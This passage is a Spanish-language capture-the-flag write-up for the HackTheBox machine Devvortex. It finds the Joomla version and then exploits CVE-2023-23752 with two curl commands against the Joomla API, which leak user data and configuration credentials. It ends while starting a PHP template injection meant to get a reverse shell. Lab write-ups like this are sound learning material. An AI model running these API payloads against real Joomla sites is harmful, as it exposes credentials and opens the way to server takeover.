
------
# [[Enumeracion version de joomla]]

Buscando en internet encontramos que si vamos al endpoint http://dev.devvortex.htb/administrator/manifests/files/joomla.xml vamos a poder visualizar la version de joomla

![[Devvortex14.png]]
Nos dice que esta corriendo la *version 4.2.6* asi que vamos a usar el [[CVE-2023-23752]]

-----
# [[CVE-2023-23752]]

Guiandonos del repositorio de [Youns92](https://github.com/Youns92/Joomla-v4.2.8---CVE-2023-23752)
Usamos estos payloads para sacar informacion:

```shell
curl -s "http://dev.devvortex.htb/api/index.php/v1/users?public=true" | jq '.data[] | select(.type == "users") | {id: .attributes.id, name: .attributes.name, username: .attributes.username, email: .attributes.email, groups: .attributes.group_names}'
```

![[Devvortex15.png]]
Este no nos da ninguna informacion relevante

Y este otro payload si nos da informacion que nos sirve

```shell
curl -s "http://dev.devvortex.htb/api/index.php/v1/config/application?public=true" | jq '.data[] | select(.type == "application") | .attributes'
```


![[Devvortex16.png]]
![[Devvortex17.png]]

Obtenemos las credenciales:
lewis:P4ntherg0t1n5r3c0n##

Y ahora entramos al panel de logeo con las credenciales que dumpeamos

![[Devvortex18.png]]

------------
# [[Inyeccion de codigo php en template Joomla]] para enviarnos una [[Reverse shell]] 

Aca apretamos en *System*

![[Devvortex19.png]]
Ahora en *Site Templates*
![[Devvortex20.png]]
